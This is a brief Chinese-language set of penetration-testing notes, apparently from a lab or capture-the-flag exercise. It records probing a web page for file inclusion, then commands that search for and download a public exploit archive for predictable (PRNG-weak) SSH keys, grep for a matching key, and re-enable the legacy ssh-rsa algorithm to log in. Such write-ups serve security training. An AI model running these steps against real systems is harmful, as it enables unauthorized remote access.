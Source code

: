 # 文件包含

80 端口界面先打一个 **'** 出现报错，尝试文件包含漏洞

![[Pasted image 20250626212428.png]]

# 公私钥碰撞

```
searchsploit prng

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2

grep -lr "AAAAB3NzaC1yc2EAAAABIwAAAQ"
```

缺少 ssh \-rsa

```
-o HostKeyAlgorithms=+ssh-rsa
```

缺少共同前签名

```
-o PubkeyAcceptedKeyTypes=+ssh-rsa
```